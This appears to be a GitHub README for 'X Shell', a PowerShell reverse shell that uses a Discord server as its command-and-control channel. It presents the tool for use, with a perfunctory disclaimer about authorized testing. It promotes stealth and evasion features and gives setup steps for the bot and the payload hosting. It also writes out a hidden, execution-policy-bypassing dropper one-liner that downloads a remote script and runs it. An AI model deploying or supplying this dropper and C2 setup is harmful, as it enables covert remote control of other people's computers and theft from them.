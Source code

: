 ![banner](/src/banner.png)
# X Shell: Discord-Based Reverse Shell

## Overview

X Shell is a PowerShell-based reverse shell that leverages a Discord server as its command-and-control (C2) infrastructure. It dynamically creates dedicated Discord channels for each user, enabling organized command execution and response tracking.

## 🚨 Disclaimer

**WARNING:** This tool is strictly for educational and authorized penetration testing purposes. Unauthorized use is illegal and may result in criminal prosecution. Always obtain explicit permission before testing.

## Features

- 🔒 Stealthy PowerShell dropper mechanism
- 🤖 Discord-based command and control
- 🔐 Dynamic channel creation for each session
- 🌐 Flexible script retrieval mechanism

## Architecture

### Components

1. **PowerShell Dropper**
   - Bypasses Windows execution restrictions
   - Retrieves main script from configurable source
   - Minimal footprint for evasion

2. **Script Hosting** *(Optional but Recommended)*
   - Can use Vercel, GitHub Gist, or other hosting
   - Provides secure and fast script retrieval
   - Enables easy script updates

3. **Discord C2 Server**
   - Manages communication channels
   - Executes received PowerShell commands
   - Returns command output

## Requirements

- Discord server
- Discord bot with channel management permissions
- Hosting solution for script retrieval (optional)
- PowerShell environment

## Installation Steps

### 1. Create Discord Bot
- Visit [Discord Developer Portal](https://discord.com/developers/applications)
- Create new application
- Generate bot token
- Configure permissions:
  - Manage Channels
  - Read Messages
  - Send Messages

### 2. Script Hosting *(Recommended)*
**Option A: Vercel Deployment** (Recommended)
- Fork repository
- Deploy to Vercel
- Configure authentication tokens
- Update script serving logic

**Option B: Alternative Hosting**
- Use GitHub Gist
- Private pastebin
- Personal web server
- Ensure secure, authenticated access

### 3. Prepare Deployment
- Update script with:
  - Bot token
  - Server ID
  - Category ID
  - Script retrieval URL

### 4. Execute Dropper
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://your-script-host.com/ -H @{'Authorization'='Bearer your-token'}; iex $r.Content"
```

## Hosting Considerations

- Use HTTPS for script retrieval
- Implement token-based authentication
- Minimize script exposure
- Regularly rotate access tokens

## Additional Resources

- [Discord Server Template](https://discord.new/AFkzNqmAdmex)
- Preconfigured server with logging channels

## Security Considerations

- Implement strict authentication
- Rotate tokens regularly
- Monitor and log all activities
- Ensure compliance with legal standards

## Contributing

1. Fork the repository
2. Create feature branch
3. Commit changes
4. Push and submit pull request

## License



## Contact

<a href="https://discord.com/users/789782857852911616"><img src="https://skillicons.dev/icons?i=discord"></a>
